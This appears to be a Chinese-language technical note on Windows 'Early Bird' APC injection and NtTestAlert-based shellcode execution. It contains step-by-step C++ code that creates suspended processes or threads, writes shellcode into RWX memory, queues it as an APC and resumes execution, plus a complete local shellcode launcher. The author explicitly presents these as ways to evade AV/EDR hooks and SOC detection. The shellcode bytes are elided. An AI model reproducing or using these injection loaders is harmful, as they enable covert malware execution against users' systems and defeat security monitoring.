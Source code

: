 # Early Bird & NtTestAlert

## Early Bird简介
原理是, 系统在**初始化**线程时程序会调用`NtTestAlert`函数对APC队列进行处理清空. 所以可以在挂起的**未初始化**线程里插入APC, 唤醒的时候自动执行APC.

APC注入的变种, 太简单了随便写写, 和APC注入技术细节差别不大.

### 步骤简介

1. 以挂起的状态创建一个合法进程(类似Process Hollowing), 注意此时线程**未初始化**. 或者对已有的process创建一个挂起的线程.
	* `CreateProcessA(NULL, (LPSTR)arg[1], NULL, NULL, NULL, CREATE_SUSPENDED | CREATE_NO_WINDOW, NULL, NULL, &si, &pi;`
	* `CreateRemoteThread(hProcess,0, 0, (LPTHREAD_START_ROUTINE)0xfff, 0, CREATE_SUSPENDED, NULL);`
2. 分配空间, 写入shellcode
	* `VirtualAllocEx`, `WriteProcessMemory`
3. APC插入主线程
	* `QueueUserAPC`
4. 挂起线程唤醒, 线程开始**初始化**调用`NtTestAlert`, 执行APC
	* `ResumeThread`

### advantage

相比于之前的普通版APC注入: Early Bird中的恶意行为发生在**Process/Thread初始化前**(创建一个挂起进程/线程, 然后再插入APC).  可以绕过一些AV/EDR的hooks 检测.


## 关键代码注释
Suspended Process:

```
	// 1. create suspended process
	STARTUPINFO pStartupInfo = { 0 };
	PROCESS_INFORMATION pProcessInfo = { 0 };
	CreateProcessA(NULL, (LPSTR)arg[1], NULL, NULL, NULL, CREATE_SUSPENDED | CREATE_NO_WINDOW, NULL, NULL, &pStartupInfo, &pProcessInfo);
	cout << arg[1] << " pid is " << pProcessInfo.dwProcessId << endl;
	// 2. Alloc memory and write shellcode into process
	LPVOID AllocMemory = VirtualAllocEx(pProcessInfo.hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(pProcessInfo.hProcess, AllocMemory, shellcode, sizeof(shellcode), NULL);
	// 3. Inject APC into Thread and resumeThread
	QueueUserAPC((PAPCFUNC)AllocMemory, pProcessInfo.hThread, NULL);
	ResumeThread(pProcessInfo.hThread);
```

Suspended Thread:

```
	hProcess = OpenProcess(PROCESS_ALL_ACCESS, NULL, Pid);
	AllocAddr = VirtualAllocEx(hProcess, 0, sizeof(shellcode) + 1, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProcess, AllocAddr, shellcode, sizeof(shellcode) + 1, 0);
	hThread = CreateRemoteThread(hProcess,0, 0, (LPTHREAD_START_ROUTINE)0xfff, 0, CREATE_SUSPENDED, NULL);
	QueueUserAPC((PAPCFUNC)AllocAddr, hThread, 0);
	ResumeThread(hThread);
```

有点傻逼, 既然用`CreateRemoteThread`创建挂起线程再用APC注入, 那为啥不直接`CreateRemoteThread`注入shellcode.

## Shellcode Execution in a Local Process with QueueUserAPC and NtTestAlert

### 原理
上文提到的Early Bird, 本质上是利用线程创建后, 系统自动调用`NtTestAlert`清空APC队列执行APC.

所以可以直接调用这个函数来**主动执行APC**. 扩展一下思路, 也可以让目标线程主动执行进入Alert状态的函数执行APC.

但有个特别大的缺点, 就是只能让本地进程/线程执行, 没用办法远程让被注入APC的线程进程执行`NtTestAlert`. 用`CreateRemoteThread`等shellcode注入方式的话就本末倒置了.

唯一的意义就是用来当做shellcode启动器, 不依赖`CreateThread`和`CreateRemoteThread`等API, 隐蔽性良好, 能绕过SOCs and AV/EDR vendors.

### Local Process Test
不加`NtTestAlert();`, 启动器本身就不会触发APC.

```
#include <windows.h>
#include <iostream>
#include <process.h>
using namespace std;
int main(int argc, char *arg[])
{
	UCHAR shellcode[] = {...};

	LPVOID AllocMemory = VirtualAlloc(NULL,sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(GetCurrentProcess(), AllocMemory, shellcode, sizeof(shellcode), NULL);
	cout << "CurrentProcess Pid is "<< getpid()<< endl;
	QueueUserAPC((PAPCFUNC)AllocMemory, GetCurrentThread(), NULL);

	typedef VOID(NTAPI* pNtTestAlert)(VOID);
	pNtTestAlert NtTestAlert = (pNtTestAlert)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtTestAlert");
	NtTestAlert();
	return 0;
}
```

### Remote Process Test
这个没有办法, 因为要让远程进程自己执行`NtTestAlert();`, 就只能靠写进shellcode里然后注入. 那我为啥不直接`CreateRemoteThread`执行shellcode.



